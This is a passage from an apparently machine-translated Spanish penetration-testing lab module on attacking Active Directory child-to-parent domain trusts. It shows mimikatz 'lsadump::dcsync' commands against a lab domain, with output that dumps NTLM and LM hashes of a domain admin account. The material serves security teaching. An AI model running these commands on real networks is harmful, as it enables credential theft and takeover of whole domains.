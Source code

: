 ```powershell-session
```

Finalmente, podemos probar este acceso realizando un ataque DCSYNC contra el dominio principal, dirigido al`lab_adm`Usuario administrador del dominio.

#### Realización de un ataque DCSYNC

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

Cuando se trata de múltiples dominios y nuestro dominio objetivo no es lo mismo que el dominio del usuario, necesitaremos especificar el dominio exacto para realizar la operación DCSYNC en el controlador de dominio particular. El comando para esto se vería como lo siguiente:

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
```